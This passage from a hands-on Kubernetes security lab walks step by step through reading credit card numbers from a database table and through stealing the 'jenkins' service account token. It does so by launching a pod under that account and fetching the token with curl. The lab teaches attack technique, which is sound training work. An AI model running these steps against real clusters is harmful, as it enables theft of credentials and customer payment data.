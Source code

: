 57. Finally, read the contents of the `transactions` table:

    ```shell
    select * from transactions;
    ```

58. Notice that we now see all the transaction details, including credit card numbers!

59. Exit the PostgreSQL client:

    ```shell
    \q
    ```

60. Let's look at one other gotcha for secrets. This time, let's start a pod to steal a service account token in the same namespace. Take a look at what service account the other pod in the cluster, called `jenkins`, uses:

    ```shell
    kubectl get pod jenkins -o yaml | grep serviceAccount:
    ```

61. Now, let's see what that service account can do.  Create your own pod manifest, naming that service account as the one you'd like to use.

    ```shell
    cat <<END >pod-display-token.yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: display-token
    spec:
      containers:
      - image: bustakube/http-display-sa-token
        name: display-token
      dnsPolicy: ClusterFirst
      restartPolicy: Always
      serviceAccount: jenkins
    END
    ```

62. Now, stage the pod:

    ```shell
    kubectl create -f pod-display-token.yaml
    ```

63. Get the pod's IP address:

    ```shell

    p="display-token"
    ip=$( kubectl get po $p -o yaml |grep podIP: |awk '{print $2}')
    ```

64. Now, connect to the pod with `curl` to receive the token:

    ```shell
    curl -s http://$ip:8080 >token
    ```

